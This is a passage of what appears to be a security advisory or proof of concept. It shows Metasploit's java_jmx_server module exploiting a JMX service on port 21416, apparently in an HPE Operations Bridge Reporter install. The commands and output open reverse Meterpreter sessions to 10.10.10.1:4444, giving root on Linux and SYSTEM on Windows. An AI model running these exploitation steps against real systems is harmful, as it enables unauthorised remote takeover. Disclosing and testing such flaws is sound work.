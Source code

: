 ```
[*] 10.10.10.123:21416 - Proceeding with handshake...
[+] 10.10.10.123:21416 - Handshake with JMX MBean server on 10.10.10.123:41123
[*] 10.10.10.123:21416 - Loading payload...
[*] 10.10.10.123:21416 - Replied to request for mlet
[*] 10.10.10.123:21416 - Replied to request for payload JAR
[*] 10.10.10.123:21416 - Executing payload...
[*] Sending stage (53927 bytes) to 10.10.10.123
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.123:53196) at 2020-05-07 20:55:40 +0700

meterpreter > getuid
Server username: root
meterpreter >
```

On Windows we get code execution as SYSTEM:

```
msf5 > use exploit/multi/misc/java_jmx_server
msf5 exploit(multi/misc/java_jmx_server) > set rhost 10.10.10.204
rhost => 10.10.10.204
msf5 exploit(multi/misc/java_jmx_server) > set rport 21416
rport => 21416
msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.204:21416 - Using URL: http://0.0.0.0:8080/Z6cXtS1p
[*] 10.10.10.204:21416 - Local IP: http://192.168.1.222:8080/Z6cXtS1p
[*] 10.10.10.204:21416 - Sending RMI Header...
[*] 10.10.10.204:21416 - Discovering the JMXRMI endpoint...
[+] 10.10.10.204:21416 - JMXRMI endpoint on 127.0.0.1:49162
[*] 10.10.10.204:21416 - Proceeding with handshake...
[+] 10.10.10.204:21416 - Handshake with JMX MBean server on 127.0.0.1:49162
[*] 10.10.10.204:21416 - Loading payload...
[*] 10.10.10.204:21416 - Replied to request for mlet
[*] 10.10.10.204:21416 - Replied to request for payload JAR
[*] 10.10.10.204:21416 - Executing payload...
[*] Sending stage (53927 bytes) to 10.10.10.204
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.204:50089) at 2020-05-08 00:08:27 +0700

meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\HPE-OBR\PMDB\adminServer>whoami
whoami
nt authority\system
```
